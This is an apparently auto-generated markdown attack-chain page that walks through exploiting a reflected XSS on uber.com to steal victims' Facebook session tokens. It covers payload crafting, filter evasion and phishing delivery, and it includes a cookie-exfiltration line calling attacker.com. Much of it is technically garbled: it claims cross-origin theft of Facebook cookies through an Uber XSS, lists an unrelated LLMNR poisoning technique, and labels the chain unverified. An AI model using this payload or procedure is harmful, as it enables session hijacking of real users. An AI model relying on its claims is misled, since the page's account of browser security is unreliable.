

# Reflected XSS on Uber.com Leading to Facebook Session Token Theft

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability on Uber's website to inject JavaScript and steal Facebook session tokens from authenticated victims.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools
- Local web server (e.g., Python's http.server)

### Target Environment

- Web platform
- Access to https://www.uber.com
- Victim must be authenticated on Uber and Facebook

### Initial Access Requirements

- No prior credentials needed for attacker
- Social engineering to trick victim into visiting malicious site
- Network access to host malicious page

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Reflected-XSS-Endpoint]]

**Objective**: Locate the reflected XSS vulnerability on Uber's homepage by testing URL parameters for unsanitized input reflection.

**Instructions**: Use a web browser to append a test payload to the Uber URL, such as ?param=, and check if it executes. Inspect network requests to identify parameters like search queries or referral links that reflect user input without sanitization.

**Expected Output**: JavaScript alert pops up, confirming reflection and execution.

**Success Indicators**:
- Arbitrary JS executes in the context of uber.com domain
- Victim's browser renders the injected script

### Step 2: Craft Malicious Payload
procedure: [[procedures/Craft-and-Deliver-XSS-Payload]]

**Objective**: Develop a JavaScript payload that accesses cross-origin resources to bypass same-origin policy limitations and prepare for token theft.

**Instructions**: Create an HTML page hosted on a malicious server that redirects or iframes to the vulnerable Uber URL with the payload encoded in the parameter, e.g., javascript:fetch('https://attacker.com/steal?token='+document.cookie). Use URL encoding to evade basic filters. Test locally to ensure the payload injects without breaking the page.

**Expected Output**: Payload loads and executes JS in Uber's context upon visit.

**Success Indicators**:
- Payload reflects and runs without errors
- Attacker-controlled JS has access to uber.com DOM

### Step 3: Steal Facebook Session Token
procedure: [[procedures/Steal-Facebook-Session-Token]]

**Objective**: Execute the payload to exfiltrate the victim's Facebook session token, enabling session hijacking.

**Instructions**: Trick the authenticated victim into visiting the malicious site via phishing email or link. The payload, once injected via the reflected parameter, uses techniques like accessing iframe contents or sending beacons to steal the Facebook cookie (assuming shared session context or bypass). Exfiltrate to attacker's server using XMLHttpRequest or image src tricks.

**Expected Output**: Token data sent to attacker's endpoint, e.g., POST request with cookie value.

**Success Indicators**:
- Facebook session token received by attacker
- Potential account takeover confirmed by logging in with stolen token

## Attack Chain Summary

### Key Achievements

1. Successful identification and exploitation of reflected XSS on a high-profile site like Uber.
2. Bypass of basic sanitization to execute arbitrary JS in trusted domain.
3. Theft of cross-site session tokens, leading to high-impact account compromise.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[LLMNR-NBT-NS Poisoning and SMB Relay]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]
- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
